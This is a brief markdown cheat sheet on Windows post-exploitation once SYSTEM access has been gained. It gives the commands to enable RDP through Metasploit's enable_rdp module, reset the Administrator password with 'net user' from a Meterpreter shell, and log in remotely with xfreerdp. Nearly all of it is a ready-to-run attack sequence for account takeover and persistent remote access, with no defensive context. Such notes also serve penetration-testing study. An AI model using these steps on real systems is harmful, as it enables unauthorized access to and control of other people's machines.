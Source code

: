 
# Enabling RDP on Windows (Post-Exploitation)

After gaining **NT AUTHORITY/SYSTEM** access:

---

## 1. Enable RDP with Metasploit
```bash
use post/windows/manage/enable_rdp
set SESSION 1
set USER Administrator       # optional
set PASSWORD password_12345  # optional
run
```

## 2. Change Password (from Meterpreter)

```bash
> shell
net user Administrator password_111112
exit
```
---

## 3. Connect via RDP

```bash
xfreerdp /v:<target_ip> /u:Administrator /p:password_111112
```

---
